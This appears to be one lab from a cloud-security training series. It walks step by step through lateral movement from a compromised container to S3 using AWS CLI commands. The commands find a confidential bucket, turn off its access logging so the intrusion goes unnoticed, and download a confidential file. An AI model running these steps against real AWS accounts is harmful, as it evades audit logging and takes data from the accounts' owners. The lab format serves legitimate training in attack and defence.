


# Lab 4: Moving laterally to a S3 bucket

In the previous lab, we explored the compromised container and discovered an associated IAM profile with access to the AWS CLI. We also discovered that we have read access to Amazon Simple Storage Service (S3).

**Breakout**

Having identified this new potential lateral target (via S3 read access), let’s investigate how we can further leverage the AWS CLI.

Due to a fairly common access control misconfiguration, we can impersonate both the root user of this container, along with the existing AWS IAM profile associated with this container (for accessing AWS services). It is possible that excessive permissions have been assigned to this IAM profile, so let’s continue probing our capabilities in S3.

In the previous lab, we enumerated the AWS account S3 buckets.



Notice that two buckets include the string “confidential” and one of them appears to be a logging bucket. To be stealthy, we should disable any active bucket access logging policy that might be writing to that bucket.

_Get the target bucket name_

```shell
TARGET_BUCKET=$(aws s3api list-buckets --query 'Buckets[].[Name]' --output text | grep confidentialbucket)

echo $TARGET_BUCKET
```

Check for a bucket logging policy

```shell
aws s3api get-bucket-logging --bucket $TARGET_BUCKET
```

[Bucket logging configuration](lab4-1.png)

> [!NOTE]
> If your Metasploit session closes unexpectedly, type “run -j” at the metasploit console prompt to reconnect to the target.

We can see from the result that there is a logging bucket policy. We’ll create and associate an empty bucket policy with the confidential data bucket to disable the policy.

Associate an empty bucket-logging policy to disable bucket logging

```shell
echo "{}" > no-bucket-logging.json

aws s3api put-bucket-logging --bucket $TARGET_BUCKET --bucket-logging-status file://no-bucket-logging.json
```

Confirm that we attached the new bucket logging policy

```shell
aws s3api get-bucket-logging --bucket $TARGET_BUCKET
```

Since we added a null policy, the command should return nothing. It worked!

**Confirming the S3 target**

Now we’re just going to try and access the confidential bucket and see if we get results. AWS S3 buckets support granular permissions, so while we may have access to the bucket, we might not be able to list files, or only list specific files.

```shell
aws s3 ls s3://$TARGET_BUCKET
```


Success!

We only see the one file, but it does look pretty interesting...

Download the file to the local container

```shell
aws s3 cp s3://$TARGET_BUCKET/confidential-data.txt s3-captured.txt
```

**Attack progression diagram**

There are three steps to this attack. The diagram below shows what we have accomplished with a few simple misconfigurations.


